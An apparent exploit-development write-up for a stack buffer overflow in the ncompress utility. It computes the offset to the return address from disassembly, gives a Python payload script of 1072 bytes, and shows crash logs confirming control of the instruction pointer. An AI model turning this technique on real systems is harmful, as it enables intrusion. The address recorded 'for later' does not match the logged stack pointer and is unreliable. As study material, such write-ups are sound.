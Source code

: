 First lines: 
```bash 
   0x565567e4 <+0>:	push   %ebp
   0x565567e5 <+1>:	mov    %esp,%ebp
   0x565567e7 <+3>:	push   %edi
   0x565567e8 <+4>:	push   %esi
   0x565567e9 <+5>:	push   %ebx
```
It pushes edi, esi and ebx so that's 12 bytes (esp is at ebp - 12).
``` bash
   0x565567ea <+6>:	sub    $0x4dc,%esp
```
Then there's a subtraction from esp so now we know (with p 0x4dc) that the total space allocated for the stack is 1244 bytes. (esp is at ebp - 12 - 0x4dc)

But when we call strcpy there is the line 
``` bash
   0x56556804 <+32>:	lea    -0x428(%ebp),%eax
```
-0x428 is -1064 bytes, so the buffer starts at ebp - 1064 bytes.

So for now we know that total stack space is  1244 bytes and that the buffer starts at ebp - 1064 bytes.

So we want the start of the buffer and the return address(ebp + 4). Which is 
(ebp + 4) - (ebp -0x428) = 1068 bytes. 1068 bytes before the return address. So writing 1068 bytes would reach the return address. So including the return address
it's 1068 + 4 = 1072. 

Testing with 1072 bytes:
``` python
import sys

payload = b""
payload += b"B" * 1072

sys.stdout.buffer.write(payload)
```
Executing:
``` bash
ubuntu@dbd4f638e4eb:~$ python3 exploit1072.py > /tmp/payload1072
ubuntu@dbd4f638e4eb:~$ ncompress `cat /tmp/payload1072`
BBBB.....BBBB: File name too long
Segmentation fault (core dumped)
```
Checking logs:
``` bash
ubuntu@dbd4f638e4eb:~$ sudo dmesg -T | grep segfault | tail -3
[Mon Mar 17 17:05:05 2025] ncompress_real[10227]: segfault at 42424242 ip 0000000042424242 sp 00000000ffffce20 error 14 likely on CPU 1 (core 1, socket 0)
[Mon Mar 17 17:05:29 2025] ncompress_real[10245]: segfault at 42424242 ip 0000000042424242 sp 00000000ffffce20 error 14 likely on CPU 1 (core 1, socket 0)
[Mon Mar 17 17:39:18 2025] ncompress_real[11639]: segfault at 42424242 ip 0000000042424242 sp 00000000ffffd1c0 error 14 likely on CPU 2 (core 2, socket 0)
```
Segfault at 42424242!! and we write down the address `0xffff1dc0` for later.
